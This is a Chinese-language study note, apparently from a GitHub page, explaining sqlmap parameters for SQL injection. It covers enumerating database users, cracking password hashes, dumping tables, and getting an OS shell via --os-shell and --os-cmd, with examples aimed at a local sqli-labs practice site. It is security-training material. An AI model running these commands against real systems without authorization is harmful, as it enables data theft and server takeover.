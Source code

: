 # Sqlmap的使用

>* **Sqlmap工具**
>   *  适用于sql注入
>   *  原理:
>      *  通过参数,使用拥有的大量模板进行sql注入
>   *  使用方法:
>      *  给出网站
>        *  -u http://localhost/sqli-labs-php7-master/Less-1/?id=3
>      *  **给出注入点**
>        *  ?id=3
>      *  选择参数
>        *  例如:
>          *  --current-db 获取数据库名称
>          *  --passwords 尝试破解数据库密码
>   *  **参数类型**
>      *  **第一类:偷取数据库配置信息**
>        *  --banner 获取数据库版本信息
>        *  --current-db 获取数据库名称
>        *  --current-user 获取数据库管理系统当前用户
>        *  --hostname 获取数据库服务器的主机名称
>        *  --users 枚举数据库管理系统用户
>        *  --privileges 枚举数据库管理系统用户的权限
>        *  --is-dba 检测DBMS当前用户是否DBA
>        *  --passwords 尝试破解数据库密码,枚举数据库管理系统用户密码哈希
>      *  **第二类:日志等级参数和风险参数**
>        *  **七种日志参数:**
>          *  日志等级:0~6
>          *  -v 数字
>          *  0 最简略,只显示报错严重信息,6最详细,默认1 ,2显示debug,3显示注入参数,4增加显示请求信息,5增加显示http响应头,6增加显示响应页面
>          *  参数：--output-dir = 指定路径
>        *  **四种风险参数: 0~3**
>          *  --risk 数字
>          *  0,1较安全的语句(select)作为注入点
>          *  2(用insert 作为注入点)
>          *  3(增加使用updata delect语句作为注入点)
>          *  风险参数越高越容易破解,对网站伤害也越深(对数据造成破坏)
>            *  测试环境 都可以
>            *  生产环境 <=1
>        *  **五种探测等级**
>          *  ‘--level’ （1 - 5，默认为1）
>      *  **第三类:偷取数据(表 字段名字 数据内容)**
>        *  --privileges 是否有权限
>        *  --dbs所有数据库
>        *  -D 指定数据库 --tables 下所有的表
>          *  示例 :
>            *  url --tables -D "数据库名"
>        *  指定表中字段
>          *  示例:
>            *  url --columns -D "数据库名"
>        *  指定表中数据
>          *  示例:
>            *  url --dump -D "" -T "" -C ""
>            *  url --sql-query="select * from 表名"
>      *  **第四类:模拟请求数据**
>        *  破解POST请求:
>          *  --data 指定的数据会被用post方式提交
>            *  示例:
>            *  --data="uname=1&passwd=2" 
>          *  --user-agent"模拟请求端(手机浏览器等等)"
>          *  --level = 3 模拟客户端信息,模拟身份等级
>          *  --method=post  可以指定请求方式，如GET、POST、PUT等
>          *  --cookie :使用指定的cookie
>          *  --mobile 使用手机的user agent
>            * 示例:python sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-11/
>      *  **第五类:sqlmap和burp联合使用**
>          *  需求原因:网站页面数量巨大
>          *  **使用原理:**
>            *  burp爬网---->保存到log文件
>            *  sqlmap解析log文件发起SQL注入
>          *  **使用方法:**
>            *  burp -->project options
>            *  Logging --->Spider 勾选Requests,将爬网数据保存为 .log文件
>            *  burp爬取网站
>            *  sqlmap 参数:
>              *   python sqlmap.py -l "burp日志路径" --smart(智能跳过) --batch(批处理,默认输入回车或者y) + 之前的攻击参数
>              *  批量执行sql注入
>   *  **常用参数:**
>      *  -h 查看帮助
>      *  -v 日志等级
>      *  --version查看版本
>      *  --dbms 指定数据库类型
>        *  示例: python sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-1/" --dbms mysql
>      *  --banner 获取数据库版本和类型
>      *  --current-db 获取攻击地址的数据库的名称
>      *  --flush-session (sqlmap对扫描模板有缓存)
>      *  --crawl  从目标URL开始爬取目标站点并收集可能存在漏洞的URL
>        *  示例: python sqlmap.py -u "http://localhost/sqli-labs-php7-master/" --crawl=3
>      *  --threads=数字  : 最大的HTTP（S）请求并发量（默认为1），最大10, sqlmap\lib\core\settings.py,修改MAX_NUMBER_OF_THREADS可更改最大线程数
>        *  示例: python sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-1/?id=1" --common-tables -D "security" --threads=5
>      *  --os-shell 交互式的操作系统的shell (linux下)
>      *  --os-cmd = OSCMD 执行操作系统命令(windows)
>        *  示例:python sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-1/?id=1" --os-cmd="ifconfig"
>      *  --proxy="代理ip:端口" 使用代理
>      *  --sql-query=QUERY 执行指定的SQL语句
>        *  示例:python sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-1/?id=1" --sql-query="select * from users"

>   *  其他
>   *  ‘--’ 和 ‘-’ 的区别
>      *  ‘--’ 后一般跟完整的单词
>      *  ‘-’ 后一般跟单词的缩写，即单个字母
